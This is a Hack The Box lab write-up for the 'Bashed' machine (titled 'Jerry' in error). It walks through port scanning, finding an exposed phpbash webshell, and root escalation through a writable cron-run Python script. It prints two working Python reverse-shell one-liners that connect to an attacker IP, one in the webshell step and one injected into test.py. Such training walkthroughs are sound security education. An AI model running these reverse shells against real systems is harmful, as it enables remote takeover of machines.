


# HTB - Jerry

#### Ip: 10.10.10.68
#### Name: Bashed
#### Rating: Easy

----------------------------------------------------------------------


### Enumeration

Lets begin enumerating this box by scanning all TCP ports. I will also speed this scan up by adding the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Bashed]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.68
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 14:44 CDT
Nmap scan report for 10.10.10.68
Host is up (0.080s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.85 seconds
```

Ok, so looks like only port 80/http is up on this box. Let's go ahead and emumerate a bit further and port scan with the `-sC` and `-sV` flags set to enumerate versions and also throw some basic Nmap scripts at it:


So looks like the site is running on Apache, but so far nothing else very interesting jumps out. From here lets try enumerating more and seeing if we can find more directories. For this I will use FeroxBuster, which is incredibly fast:


Cool, we've found a few more directories to investigate, and  /dev seems particularly interesting.

Navigating to the site we find phpbash.php and that appears to be an interactive webshell, in which we can run various commands.



### Exploitation

Grabbing a python reverse shell one-liner from https://www.revshells.com/ I simply set up a netcat listener and paste the following into the webshell:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.24",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```


Nice! We now have a shell as www-data. I can quickly stabilize the shell using:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

and grab the user.txt flag:


### Privilege Escalation

From here I ran `sudo -l` to see what, if any commands can be run with elevated privileges.

```text
www-data@bashed:/home/arrexel$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Interesting.. it appears I can run any command as user scriptmanager. I'll run `sudo -u scriptmanager bash` to change my user to scriptmanager:

```text
www-data@bashed:/home/arrexel$ sudo -u scriptmanager bash
sudo -u scriptmanager bash
scriptmanager@bashed:/home/arrexel$ whoami
whoami
scriptmanager
```

Now as user scriptmanager I will go back to enumerating the box. In the `/` I find a directory named scripts, which isn't typical. Looking at the scripts it appears there is a file test.py which writes to test.txt every minute. 

```text
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!
```

I can confirm test.txt is being written to every minute by running `ls -la`, observing the date/time, waiting one minute and running the commmand again. 



Also of note is the fact that scriptmanager owns the test.py file, whereas root is the owner of test.txt, so in theory I should be able to get a shell back as root if I can successfully inject a reverse shell into test.py. 

Lets try it out. First, I will set up a netcat listener `nc -lnvp 8888` and then run:

```text
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.24\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > test.py
```

to write the reverse shell into the cron-job.

Sure enough one minute later I catch a reverse shell as root on my netcat listener. After stabilizing the shell all thats left to do is grab the flag.


### Key Takeaways

- Sometimes it's the features themselves that prove to be the biggest vulnerabilities. Having this webshell on a public facing site was clearly a bad idea.

- It pays to investigate machines manually once on the target, as you may find things that stand out as peculiar, that may warrant more investigating. It is not common to see a scripts directory in `/` which tipped me off to investigate more.

Thanks for following along!

Ryan

----------------------------------------------------------------------------------------------------------------
